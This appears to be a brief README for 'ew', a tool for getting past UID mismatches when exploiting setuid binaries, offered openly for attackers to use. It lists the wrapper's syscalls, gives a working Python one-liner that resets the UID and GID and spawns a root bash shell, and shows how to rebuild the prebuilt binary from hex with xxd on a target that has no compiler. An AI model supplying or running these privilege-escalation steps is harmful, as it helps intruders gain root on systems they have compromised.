 # ew #

_ew_ is a simple wrapper program for circumventing ruid / euid mistmatches during a suid exploit. It's so simple, the code is really self documenting. 

	geteuid();
	setreuid();
	setregid();
	execve();

Another quick method if python is available would be:

	/usr/bin/python -c 'import os; os.setuid(os.geteuid()); os.setgid(os.geteuid()); os.system("/bin/bash")'

Enjoy!

## ew shellcode ##

The files with shellcode are the same ew, but were built with '-Os' and then stripped, before being run through xxd -p. This is useful when the target host has xxd but no compiler.

	cat ew-x64-shellcode.hex | xxd -p -r > ew
    chmod 755 ew
